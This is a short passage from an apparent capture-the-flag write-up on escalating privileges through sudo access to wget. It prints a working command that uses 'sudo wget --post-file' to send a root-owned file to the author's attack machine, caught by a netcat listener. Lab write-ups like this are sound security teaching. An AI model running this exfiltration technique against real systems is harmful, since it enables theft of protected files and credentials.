 Looks like we can run the binary, wget. This should be exploitable. After doing a quick google search for "exploiting wget", [this](https://vk9-sec.com/wget-privilege-escalation/) website has instructions on how to exploit for privilege escalation.  

<img width="1016" alt="image" src="https://user-images.githubusercontent.com/114961392/207745746-2cd61805-dfa4-478e-bc7f-04d4b40c0f7b.png">

I will use command:  
sudo wget --post-file=/root/root_flag.txt 10.4.2.215  
This posts the root flag file to my attack machine. Set up a netcat listener on port 80 to catch the connection.  

<img width="361" alt="image" src="https://user-images.githubusercontent.com/114961392/207746159-87857c9e-d569-4072-b88a-a58fbb5f646e.png">

<img width="311" alt="image" src="https://user-images.githubusercontent.com/114961392/207746187-5c4632fa-4b93-4973-99ad-a851668261bf.png">

We now have the root flag.
